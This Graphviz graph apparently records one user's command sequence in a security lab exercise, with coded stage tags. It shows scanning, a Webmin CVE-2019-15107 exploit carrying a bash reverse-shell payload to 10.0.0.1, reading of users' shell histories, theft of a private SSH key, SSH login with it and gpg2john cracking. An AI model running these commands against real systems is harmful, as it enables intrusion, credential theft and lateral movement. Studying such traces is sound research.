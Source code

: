 // creating graph for user: 66
digraph {
	node [shape=box]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	5 [label="nmap -h A0 A1 "]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	19 [label="ls A10 "]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' A11 M11 A12 A13 A17 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' V11 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' V11 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' V11 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	61 [label="save_user.cgi A4 "]
	67 [label="useradmin_update.pl A4 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' A10 M10 A13 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	83 [label="cat /etc/services A1 M1 A9 A11 A12 A17 "]
	84 [label="less /etc/services A9 A11 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' V11 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' A16 M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' V10 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' V10 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' V10 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' V10 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' A12 M12 A13 A16 A17 "]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' V12 "]
	105 [label="ssh eve@10.1.17.4 V16 "]
	107 [label="ls A10 "]
	108 [label="cd .ssh A16 "]
	109 [label="ls A10 "]
	110 [label="ls -la A10 "]
	111 [label="chmod 600 id_rsa A15 M15 "]
	112 [label="ls -la A10 "]
	113 [label="ssh eve@10.1.17.4 V16 "]
	114 [label="gpg2john id_rsa A14 "]
	0 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 19 [constraint=false]
	19 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 61 [constraint=false]
	61 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 102 [constraint=false]
	102 -> 105 [constraint=false]
	105 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	rankdir=LR
}
